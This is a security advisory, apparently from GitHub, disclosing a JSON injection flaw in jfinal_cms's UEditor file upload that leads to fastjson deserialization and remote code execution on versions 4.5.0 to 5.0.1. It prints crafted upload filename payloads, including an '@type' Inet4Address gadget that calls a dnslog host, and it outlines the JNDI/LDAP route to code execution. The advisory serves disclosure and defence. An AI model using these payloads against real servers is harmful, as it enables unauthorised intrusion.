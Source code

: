 # jfinal_cms has Json Injection vulnerability

#### TL;DR

`jfinal_cms` has a `json` injection vulnerability, which can lead to remote command execution in the foreground in most versions.

The reason is that the `com.baidu.ueditor.define.BaseState#toString` method processes the key-value pairs of Map through splicing. This vulnerability can be triggered through the `fastjson#parseObject` function after escaping the malicious attributes. This vulnerability exists in `v4.0.0~v.5.1.0` versions, the `dnslog` version that can be exploited is `v4.5.0~v.5.1.0`, and the `RCE` version is `v4.5.0~v.5.0.1`.

#### versions affected

`version affected`：`jfnal_cms v4.5.0~v5.1.0`

`RCE version(default)`:`jfnal_cms v4.5.0~v5.0.1(fastjson 1.2.28)`

#### find gadget

The `sink` point is `com.baidu.ueditor.define.BaseState#toString`. The main logic is to traverse the `map`, process the `key` and `value` and finally make it into a `JSON` string form.
Among them, `key` and `value` are spliced with `+`. If `key` or `value` is controllable, it may cause `json` injection problem.

![Alt text](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1694866213804.jpg)

Looking up for `usage`, the `ActionEnter#invoke` method calls `state#toJSONString`. You can see that `Uploader#doExec` is triggered when `ActionMap` is an `UPLOAD_FILE` (file upload) operation.

![Alt text](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-2.png)

Let’s first look at the logic of `Uploader#doExec`. Here, different classes of `save` methods are called depending on whether `base64` is used. When the operation is `UPLOAD_FILE`, the `isBase64` of the configuration class `ConfigManager` is `false`, so `Uploader#doExec` triggers `BinaryUploader#save`.
```java
		case ActionMap.UPLOAD_FILE:
			conf.put("isBase64", "false");
			conf.put("maxSize", this.jsonConfig.getLong("fileMaxSize"));
			conf.put("allowFiles", this.getArray("fileAllowFiles"));
			conf.put("fieldName", this.jsonConfig.getString("fileFieldName"));
			savePath = this.jsonConfig.getString("filePathFormat");
			break;
```

![Alt text](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-3.png)

Auditing the `BinaryUploader#save` function, you can see that `originFileName` is controlled by `filename` of the upload form. It is worth noting that the program (only) verifies the suffix name. Here, `filename` is `filename=flag ","vulnerable":"hacked","a":".txt` can be bypassed, and finally put `originFileName` into `Map`.

![Alt text](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-4.png)

Then trigger `toJSONString` to process the malicious characters into a string through splicing.

![Alt text](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1694868670291.png)


Continuing to look up the exploit chain, we found that the above function call can be triggered through the `/ueditor` route, in which the returned `out` is a malicious string, and finally `out` is passed to `UeditorService#uploadHandle`.

![Alt text](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1694868878079.png)

`UeditorService#uploadHandle` parses the malicious string through the `parseObject` method, and you can see that `json` has been contaminated.

![Alt text](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-5.png)

Unfortunately, after being able to pollute the `json` attribute, I did not find any actual harm caused by the attribute value overridden by pollution.

Therefore, we can only find ways to use `parseObject`. The first attribute of `json`, `"state":"SUCCESS`", is uncontrollable. A small `trick` is used here, let `filename` be `flag", {"@type":"java.net .Inet4Address","val":"bgb5eh.ceye.io"},"a":".txt` can restore `Java Bean` normally.

Since the latest version of `v5.1.0` uses `fastjson` as `1.2.62` and does not have `autoType` enabled, as a novice I have not found a way to `RCE`. However, after testing, it was found that `v4.5.0~v5.0.1` all use `fastjson 1.2.28`, which can be bypassed by using cache. Just use `ldap` to create a `fastjson` full version deserialization chain `RCE`.

#### dnslog test
`DNS` testing is performed in `v4.5.0` version, run the test script.


`dnslog` received the request, proving that the vulnerability exists. It is worth noting that if the version is between `v4.5.0-v5.0.1`, two `DNS` requests will be initiated, because these versions use `fastjson` by default The version is `1.2.28`, so it can also be used as a fingerprint to determine whether it is exploitable.
![image-20230917132528175](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-20230917132528175.png)

#### RCE test

`RCE` testing is conducted in `v5.0.1` version.

Run the `jndi` server.

![1694926217388](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1694926217388.png)

Run `exp.py` to `RCE`.

![1694926173785](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1694926173785.png)